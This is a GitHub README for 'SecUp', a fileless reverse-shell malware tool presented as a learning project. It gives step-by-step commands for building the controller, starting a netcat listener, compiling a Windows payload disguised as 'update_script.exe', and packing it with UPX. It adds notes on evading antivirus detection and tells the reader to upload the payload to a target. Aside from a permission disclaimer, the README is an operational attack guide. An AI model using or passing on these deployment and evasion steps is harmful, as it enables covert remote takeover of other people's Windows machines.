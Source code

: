 # SecUp "Malware for Learning"

!!! FOR SECURITY TESTING PURPOSES ONLY !!! <br>
\******************************************************<br>
DO NOT USE THIS ON SYSTEMS THAT YOU DO NOT <br>
OWN UNLESS YOU HAVE EXPRESS PERMISSION !!!

Fileless malware that bypasses Windows Defender using PowerShell and obfuscation. <br>
Just a simple Reverse Shell using a batch script to kick things off, after which everything is fileless.

YouTube video demonstration and explanation >>> https://youtu.be/BFVzmZXIbQk

Setup and Execution<br>
1. Clone this repo<br>
`git clone https://github.com/daniellowrie/update_script`
2. Build **SecUp.go**<br>
`go build SecUp.go`
3. Run **SecUp <LHOST>**<br>
`./SecUp 192.168.1.200`
4. Open another terminal, and start a Listener on port 443 (sudo if not root)<br>
`sudo nc -vnlp 443`
5. Open another terminal, and compile EXE<br>
`GOOS=windows go build -ldflags "-s -w" -trimpath update_script.go`<br>
`upx -9 update_script.exe`
  - A word about comipiling for Windows...
    + I've experienced Golang binaries getting flagged as malware, even "Hello, World!"
      - I've read that removing `-ldflags` and `-trimpath` may help and that the standard build is best for AV evasion
      - I've also read that packing can trip AV detection as well and again the standard build is best for AV evasion
7. Back at the SecUp terminal<br>
`Press ENTER to continue...`
8. Upload and execute `update_script.exe` to target any way you like<br>
9. Shellz! :)
<P></P>
<P></P>
Going to work on building a better mousetrap as this was just a PoC at making something 'malicious' that could bypass Defender.
<P></P>






https://github.com/daniellowrie/update_script/assets/19762230/a83d13e4-108f-4406-b307-bf18704d4278


